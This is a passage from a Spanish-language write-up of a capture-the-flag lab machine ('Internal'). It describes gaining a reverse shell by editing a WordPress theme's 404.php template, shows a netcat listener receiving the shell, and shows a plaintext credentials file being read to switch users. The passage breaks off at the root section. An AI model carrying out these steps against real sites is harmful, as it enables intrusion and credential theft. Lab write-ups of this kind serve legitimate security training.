 Ahora tenemos el acceso al panel de administrador de wordpress!

## Acceso inicial - Usuario

Logeandonos al WP-Admin, podemos obtener una shell reversa usando el template de 404.php del tema twentyseventeen.

Y luego navegamos hacía `http://internal.thm/blog/wp-content/themes/twentyseventeen/404.php` para obtener la conexión!

```bash
╰─ lanfran@parrot ❯ nc -nlvp 1337                                                                                                                                  ─╯
listening on [any] 1337 ...
connect to [10.9.1.222] from (UNKNOWN) [10.10.170.6] 48948
bash: cannot set terminal process group (1075): Inappropriate ioctl for device
bash: no job control in this shell
www-data@internal:/var/www/html/wordpress/wp-content/themes/twentyseventeen$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@internal:/var/www/html/wordpress/wp-content/themes/twentyseventeen$ whoami
www-data
```

Logramos un gran avance, ya tenemos un pie en la máquina.

Buscando por los archivos de la máquina, encontramos un archivo que contiene el usuario y la contraseña de aubreanna!

```bash
www-data@internal:/opt$ ls -la
total 16
drwxr-xr-x  3 root root 4096 Aug  3  2020 .
drwxr-xr-x 24 root root 4096 Aug  3  2020 ..
drwx--x--x  4 root root 4096 Aug  3  2020 containerd
-rw-r--r--  1 root root  138 Aug  3  2020 wp-save.txt
www-data@internal:/opt$ cat wp-save.txt
Bill,

Aubreanna needed these credentials for something later.  Let her know you have them and where they are.

aubreanna:[REDACTADO]
www-data@internal:/opt$ su aubreanna
Password: [REDACTADO]

aubreanna@internal:/opt$ cat /home/aubreanna/user.txt 
[REDACTADO]
```
Podemos loguearnos con `su` y leer la flag de usuario.

## Root

En el directorio `home` de `aubreanna` hay una nota, leamosla
